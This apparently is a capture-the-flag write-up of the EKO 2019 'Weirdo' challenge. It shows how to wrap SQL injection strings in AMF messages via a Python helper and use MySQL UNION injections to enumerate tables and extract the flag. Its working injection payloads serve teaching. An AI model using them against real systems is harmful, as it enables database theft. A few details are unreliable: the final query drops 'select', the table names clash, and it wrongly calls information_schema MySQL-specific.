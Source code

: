 ```yaml
---
layout: post
title: Weirdo (SQLi writeup - EKO 2019)
tags: [challenge, eko, sql, hacking]
---
```


Quick writeup of a SQL injection challenge.

<!--more-->
We start with a
[pcap]({{ asset('wtf.pcap') }})
of a HTTP communication between a client and a server.

It is only one request/response.

With ``wireshark`` we can see that the parties are talking using
[AMF](https://en.wikipedia.org/wiki/Action_Message_Format)

Here is the decoded ``POST``:

```
Hypertext Transfer Protocol
    POST / HTTP/1.1
    Content-type: application/x-amf
    Content-Length: 40
Action Message Format
    AMF version: 0
    Header count: 0
    Message count: 1
    Messages
        Target URI: EKO.CTF
        Response URI: /1
        Length: Unknown
        ECMA array (1 items)
            AMF0 type: ECMA array (0x08)
            Array length: 0
            Property 'q' String 'arg'
                Name: q
                    String length: 1
                    String: q
                String 'arg'
                    AMF0 type: String (0x02)
                    String length: 3
                    String: arg
            End Of Object Marker
```

### Brief AMF Disassemble

In particular, this is the hexdump of the AMF message:

```
0000   00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
0010   02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
0020   00 03 61 72 67 00 00 09
```

From the end to the begin, the ``00 00 09`` is the
``End of Object Marker``, ``02 00 03 61 72 67`` is the
``arg`` string, in ASCII prefixed with 2 bytes that
determines its length in big endian and all of that is
prefixed with on byte, ``02`` that says what follows is
a string.

I'm going to stop here as my understanding of AMF is quite
low and it deserves a separate post.

Playing with the value of the query, this ``arg``, is all
what we need to get some fun.

Replacing ``arg`` with ``'xx`` we get a database error showing
that the server is vulnerable to a SQL injection.

So you know what I'm talking about.


### Custom Queries

Before playing, we need a simple way to submit custom queries.

We treat the AMF message as an opaque string, the only thing
that we need is to inject an arbitrary string ``q`` prefixed
with its size.

```python
>>> from cryptonita import B

>>> hdr = '''
... 00 00 00 00 00 01 00 07 45 4b 4f 2e 43 54 46 00
... 02 2f 31 ff ff ff ff 08 00 00 00 00 00 01 71 02
... '''

>>> hdr = B(hdr, encoding=16)
>>> eom =  B('00 00 09', encoding=16)

>>> def payload(q):
...     q  = B(q)
...     sz = B(len(q))
...
...     sz = sz.pack('>H') # uint16, big endian
...     return hdr + sz + q + eom
```

We wrap this into a HTTP POST.

```python
import requests

def post(q):
    url = 'https://wtf.eko.cap.tf/'
    data = payload(q)

    r = requests.post(url, data=data)
    for chunk in r.content.split(b'network'):
        chunk = B([c for c in chunk if chr(c).isprintable()])
        print(chunk)
```

The response is also a AMF message that we treat it as a binary blob.

For this reason we arbitrary split the response in chunks and we
filter out any non-printable char.

And *voila!* With ``post`` we can submit arbitrary queries and see their
responses.

### Prologue and Epilogue

We know that we are injecting in the middle of a SQL query but
we don't know *where*.

We may be injecting here

```
select ??? from ??? where ???='<here>' ;
```

but we may be injected here:

```
select ??? from ??? where ??? in (select ??? from ??? where ???='<here>' ???);
```

The possibilities are infinite.

If we *assume* the first case, we could try this:

 - a *prologue* of ``'`` to close the left side of the query
 - a *epilogue* of ``; --`` to close the statement and ignore anything
on the right.

```python
>>> q = b"'; --"
```

The idea is that we transform the *host* query

```
select ??? from ??? where ???='<here>';
```

into this:

```
select ??? from ??? where ???=''; --';
```

But we were wrong. It failed.

Perhaps we are in the wrong spot, perhaps one of our injected characters
were filtered or our prologue and/or epilogue is wrong.

The ``--`` begins a comment. Each SQL engine has its own. The ``--`` works
in Oracle and under *some* conditions in MySQL.

The ``#`` works only in MySQL without any condition so we could try that:

```python
>>> q = b"'; #"
```

```
select ??? from ??? where ???=''; #';
```

And it worked! And we learnt that the database is a MySQL for free.

[Ref](http://www.sqlinjection.net/comments/)


### Deducing the Host Query Structure

Under the hypothetical host query:

```
select ??? from ??? where ???='<here>';
```

We could learn how many *columns* is using the ``select`` making the
query to order the results by the, let's say, the 10th column.

If it fails we now that it has less than 10 columns.

After some binary search, we learn that it has 5 columns:

```python
>>> q = b"' order by 5 ;#"    # 5 columns
```

```
select c1, c2, c3, c4, c5 from ??? where ???='' order by 5 ; #';
```

We can experiment further with:

```python
>>> q = b"' union select 99, 98, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' union select 99, 98, 97, 96, 95 from information_schema.tables ;#';
```

This also validates that the database engine is a MySQL (``information_schema``
is MySQL specific) and that we can *union* the results.

The last confirms that the host query is just a ``select`` and we are
injecting in the ``where`` clause.


### Information Gathering

With this we can learn what other tables are in the database:

```python
>>> q = b"' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, table_name, 97, 96, 95 from information_schema.tables ;#';
```

And with this one we can learn what columns has the table ``secret``, table that
found with the previous query and it has a interesting name.

```python
>>> q = b"' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#"
```

```
select ??? from ??? where ???='' and 1=0 union select 99, column_name, 97, 96, 95 from information_schema.columns where table_name='secret' ;#';
```

In both cases the ``and 1=0`` makes the *host* query to produce zero results
and it makes the output much cleaner.


### Profit!

Finally:

```python
>>> q = b"' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#"
>>> post(q)
<...>
EKO{ this is the flag }
<...>
```

```
select ??? from ??? where ???='' and 1=0 union 99, secret, 97, 96, 95 FROM secrets ;#';
```
